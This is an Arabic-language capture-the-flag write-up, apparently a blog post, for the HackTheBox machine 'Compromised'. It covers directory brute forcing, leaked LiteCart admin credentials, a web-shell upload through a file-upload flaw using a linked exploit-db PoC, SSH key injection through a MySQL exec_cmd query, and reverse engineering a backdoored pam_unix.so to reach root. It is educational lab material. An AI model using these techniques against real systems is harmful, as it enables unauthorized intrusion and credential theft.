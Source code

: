 #hacktbebox comp

 ![Desktop View](/img/com/0.png)


_Sammmry :_

‫اثناء recon نجد بعد عملية التخمين على  directory backup 
 نقوم بتحميله والبحث داخله نجد بعد ذلكurl  
 litecart يقودنا الى كلمة السر الخاصة ب 

‫نتسغل litecart للحصول على user بعد ذلك نجد ‫‪pam_unix.so 
 
لنجد كلمة مرور ghidra  نقوم بالبحث داخله باستعمال 

root




- sammmry
- 1 Recon
   - 1.1 nmap
- 2 dirb
   - 2.1 backup
   - 2.2 creeds
- 3 Litecart
   - 3.1 Arbitrary File Upload
   - 3.2 Got shell
- 4 user
   - 4.1 Ssh connect
   - 4.2 User.txt
- 5 Privilege Escalation
   - 5.1 pam_unix.so
   - 5.2 ghidra
‬‬


## 1 Recon

### 1.1 nmap

nmap نبدا بفحص البورتات باستخدام


 ![Desktop View](/img/com/1.png)

 ## 2 dirb


dirb باستخدام directory brute force نقوم بعمل
```
Dirb http://10.10.10.207/
```

 ![Desktop View](/img/com/2.png)

 نقوم بفتحه backup نجد مجلد

### 2.1 backup

 ![Desktop View](/img/com/3.png)
 
   نقوم بفكهtar.gz نجد بداخل المجلد ملف

 ![Desktop View](/img/com/4.png)


 ### 2.2 creeds

login.php بالبحث داخل المجلد نجد داخل 

```
//file_put_contents("./.log2301c9430d8593ae.txt",
"User: ". $_POST['username']. " Passwd: ". $_POST
['password;)]'
```

نقوم باستعراض الملف

http://10.10.10.207/shop/admin/.log2301c9430d93ae.txt


نجد داخله كلمة سر

 ![Desktop View](/img/com/5.png)

## 3 Litecart
Admin theNextGenSt0r3!~

litecart نجرب تسجيل الدخول في


 ![Desktop View](/img/com/6.png)

 تم الدخول بنجاح

 Arbitrary File بعد البحث في جوجل نجد ان التطبيق مصاب ب
Upload

### 3.1 Arbitrary File Upload
نقوم بتحميل 

PHP 7.0-7.3 disable_functions bypass PoC 

من هنا

https://www.exploit-db.com/exploits/47462



![Desktop View](/img/com/7.png)


![Desktop View](/img/com/8.png)

على السيرفر shell نقوم برفع

الى content-type :application/x-php ثم تغير

content-type :application/xml

![Desktop View](/img/com/9.png)


![Desktop View](/img/com/10.png)

### 3.2 Got shell

نتوجه الى shell تم رفع

http://10.10.10.207/shop/vqmod/xml/sl.php?c=ls


![Desktop View](/img/com/11.png)

/etc/passwdنقوم بعرض

![Desktop View](/img/com/12.png)

 /bin/bash/shell يستخدم mysql نجد


بعد البحث في جوجل نجد طريقة الاستغلال 

ssh-keygen نقوم بتوليد

![Desktop View](/img/com/13.png)

server الخاص ب ssh authorized key ثم نحقنه في


```
mysql -u root -pchangethis -e "select exec_cmd('echo your key >
/.ssh/authorized_keys')"
```

![Desktop View](/img/com/14.png)

 الان نتصل بالسيرفرباستخدم الامر

ssh –i key mysql@10.10.10.207

### 4.1 Ssh connect
![Desktop View](/img/com/15.png)

### 4.2 User.txt

نجد كلمة سر mysql بالبحث داخل 
الملفات الموجودة في

NLJE32I$Fe*3


## 5 Privilege Escalation
### 5.1 pam_unix.so


sysadminنستخدمها لدخول ب
بالبحث داخل السيرفر

```
find / -newermt "2020-07-1"! -newermt "2020-09-1" -type f 2>/dev/null
```

 نجد ملف باسم 

 /lib/x86_64-linux-gnu/security/pam_unix.so


نقوم بتحميله ونستخدم هندسة عكسية على هذا الملف حتى نجد كلمة سر
نستخدمها للحصول على

root

![Desktop View](/img/com/16.png)

scpننقل الملف ب

### 5.2 ghidra

نجد كلمة السر ghidra نفتح البرنامج 



![Desktop View](/img/com/17.png)



![Desktop View](/img/com/18.png)


![Desktop View](/img/com/19.png)
